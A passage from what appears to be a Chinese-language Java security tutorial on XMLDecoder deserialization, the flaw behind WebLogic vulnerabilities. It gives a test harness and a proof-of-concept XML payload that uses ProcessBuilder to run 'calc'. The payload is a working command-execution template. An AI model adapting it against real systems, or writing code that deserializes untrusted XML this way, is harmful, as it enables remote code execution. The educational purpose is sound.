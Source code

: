 其中我们最常使用的就是ContentHandler处理器中的`startElement`、`characters`、`endElement`方法

![图片](https://mmbiz.qpic.cn/mmbiz_png/EkibxOB3fs4icWDXGrFvPicar77FqouLH3sgOoMibdNsvibXDbgBwzaFYkYcMvKpHb6yLqFIKeHSDt6FyQcfByQklPg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

# XMLdecode

这是一个java中的类，类的位置为`java.beans.XMLDecoder`。weblogic中就是因为使用了XMLdecoder而产生的漏洞

测试代码:

Main.java

```java
import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.File;
import java.io.FileInputStream;

public class Main {

    public static void main(String[] args) {
        String path = "src/poc.xml";
        try {
            XMLDecode_Deserialize(path);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void XMLDecode_Deserialize(String path) throws Exception {
        File file = new File(path);
        FileInputStream fis = new FileInputStream(file);
        BufferedInputStream bis = new BufferedInputStream(fis);
        XMLDecoder xd = new XMLDecoder(bis);
        xd.readObject();
        xd.close();
    }
}
```

poc.xml:

```java
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
